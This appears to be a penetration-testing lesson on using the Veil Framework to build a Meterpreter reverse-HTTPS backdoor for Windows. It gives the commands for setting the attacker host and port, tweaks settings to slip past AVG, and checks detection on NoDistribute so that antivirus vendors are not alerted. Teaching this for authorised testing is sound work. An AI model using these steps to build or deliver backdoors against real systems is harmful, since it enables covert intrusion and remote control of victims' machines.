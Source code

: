 # Access to operating systems

# Client side

## High Level Goals

By the end of this lesson, you will be familiar with the following:
1. Installing & Running Veil
2. Payloads overview
3. Generating a Veil backdoor
4. Listening for connection 

## Installing & Running Veil

First things we want to run Kali and Window 10,  we will use **Veil - Framework**.

We can use it by following this steps:

1. Go to the terminal and write, `rm -rf /root/.config/wine/vei` 
2. In the terminal write cd `cd /usr/share/veil/config`
3. Then write `./setup.py --force --silent`
4. Finally, `cd ..` and write `./Veil.py`

![Veil1](/img/Veil1.png)


What is Veil?

The Veil Framework is a collection of tools designed for use during offensive security testing. When the time calls for it, Mandiant’s Red Team will use the Veil-Framework to help achieve their objective.  The most commonly used tool is Veil-Evasion, which can turn an arbitrary script or piece of shell code into a Windows executable that will evade detections by common antivirus products.

The `list` command displays Veil's main commands, which are as follows:

1. **Evasion**: This generates undetectable backdoors.
2. **Ordnance**: This generates the payloads used by Evasion; this is more of a
secondary tool.

## Payloads overview

Let's use **Evasion** by typing `use 1` 

![Veil2](/img/Veil2.png)

As we can see Veil gives a list of commands that can run on this tool, let's write `list` to give us all available payloads 

![Veil3](/img/Veil3.png)

we will use `15) go/meterpreter/rev_https.py` 

In this example, we're using Meterpreter, which is a payload designed by Metasploit.

### What is Meterpreter?
Meterpreter is an advanced, dynamically extensible payload that uses _in-memory_ DLL injection stagers and is extended over the network at runtime. It communicates over the stager socket and provides a comprehensive client-side Ruby API. It features command history, tab completion, channels, and more.

The third part of a payload's name is the method that's going to be used to
establish its connection. In our example, that's rev_https. rev, which stands for
reverse, and https is the protocol that will be used to establish the connection.
There are also a few examples of rev_tcp in the preceding screenshot, which
creates a reverse TCP connection.

## Generating a Veil backdoor

Now we are going to use Veil to generate a backdoor. First, we will run `use 15` to use `15) go/meterpreter/rev_https.py`

![Veil4](/img/Veil4.png)

we will use steps:
1. we want to set `LHOST`  our IP address 

		set LHOST [your kali IP]

2. we want to change the `LPORT` to be `8080`

		set LPORT 8080

3. To ensure our backdoor can bypass AVG, we need to modify the minimum
number of `processors` used by it—in this case, 1. To do this, use the following
command:
		
		set PROCESSORS 1
4. We will also modify the `SLEEP` option, which is the number of seconds a backdoor will wait before it executes the payload. To tell your backdoor to wait 6 seconds, use the following command:

		set SLEEP 6

5. We are now going to generate the backdoor using the `generate` command.

![Veil5](/img/Veil5.png)

We now need to name our backdoor. Here, we're going to name it `rev_https_8080.`

To test our backdoor, we're going to bypass Veil's checkvt command, which is not always accurate, and VirusTotal, which shares its results with antivirus software, and instead opt for the website [NoDistribute](https://nodistribute.com)

![Veil6](/img/Veil6.png)

Once we have clicked Scan File, or View Previous Results, we can see that the
file we uploaded has successfully bypassed all antivirus programs

![Veil6](/img/Veil7.png)
